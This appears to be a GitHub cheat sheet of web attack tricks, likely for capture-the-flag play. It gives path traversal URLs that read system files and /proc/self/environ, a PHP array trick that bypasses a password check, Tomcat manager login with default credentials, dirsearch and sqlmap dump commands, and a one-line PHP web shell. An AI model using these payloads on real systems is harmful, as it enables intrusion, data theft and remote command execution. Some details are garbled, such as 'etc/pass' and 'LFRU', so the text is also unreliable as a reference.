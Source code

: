 # Tips and Tricks for Web

## Robots
Sometimes you gotta check out for `/robots.txt`
## PHP []
When Submit was pressed, a POST request was sent to the server containing:  
```
password=yourinput
```
We break the application by passing an array as the password.  
```
password[]=
```

## Web Upload

If we have a LFRU (Local File Remote Upload) we use:
`http://website.com:port/files/../../../../etc/pass`.
If that doesnt work we then use
`http://website.com:port/files/..%2F..%2F..%2F..%2Fetc%2Fpass`
for LFI.

If `etc/pass` is useless we use then `/proc/self/environ` by `http://website.com:port/files/..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron`
Add more %2F inbetween if needed.

## Tomcat Manager
Apache Tomcat has a `manager`, so inorder to access him we place this at the end of the url `/manager/html`.  
If luck still isnt on our side, we add tomcat default credentials too at the begining of the url, such as: `http://tomcat:tomcat@host:proxy/manager/html`


## dirsearch

python3 dirsearch.py -u host --proxy=http://host:port/ -e sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

## SQL Map
### SQL Injection
If we have a input box vulnerable to `SQL Injection`, we can execute this command through a `POST` request:  
`sqlmap.py -r post.txt -p id --dump`  
In the post file we will have the `POST` request, we can get it from `Google Developer tools` or `Burp`  
(post.txt)
```sh
POST /index.php HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://host/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
 
id=a&submit1=submit
```

## Image Valun
<?php system($_GET['cmd']); die(); ?>

